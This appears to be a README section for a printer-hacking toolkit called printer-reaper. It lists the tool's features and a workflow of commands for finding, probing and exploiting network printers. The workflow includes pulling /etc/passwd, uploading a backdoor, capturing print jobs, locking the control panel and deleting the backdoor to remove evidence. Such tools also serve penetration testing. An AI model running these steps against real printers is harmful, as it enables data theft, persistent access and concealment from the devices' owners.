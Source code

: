 ### Version 2.4.2 Features

**✨ New in 2.4.2:**
- HTML wiki for website deployment
- QA tested with 100% pass rate
- Complete toolkit: 109 commands
- 3 printer languages (PJL, PS, PCL)
- 4 network protocols (RAW, LPD, IPP, SMB)
- 5 attack payloads
- Comprehensive documentation

**⚡ Performance:**
- 30-second timeout configuration
- Robust retry logic
- Connection pooling ready
- Optimized for reliability

**🛡️ Security:**
- Safe mode verification
- Destructive command warnings
- Comprehensive error handling
- No sensitive data leakage

---

## 🎯 Typical Workflow

```
1. Discovery
   └─> ./printer-reaper.py        # Find printers on network

2. Connect
   └─> ./printer-reaper.py <target> pjl

3. Reconnaissance
   ├─> id                          # Identify printer
   ├─> ls                          # Browse filesystem
   ├─> network                     # Get network info
   └─> info config                 # Get configuration

4. Exploitation
   ├─> download /etc/passwd        # Exfiltrate sensitive files
   ├─> upload backdoor.ps          # Upload malicious files
   ├─> lock 12345                  # Lock control panel
   └─> capture                     # Capture print jobs

5. Cleanup
   ├─> delete backdoor.ps          # Remove evidence
   └─> exit                        # Disconnect
```

---
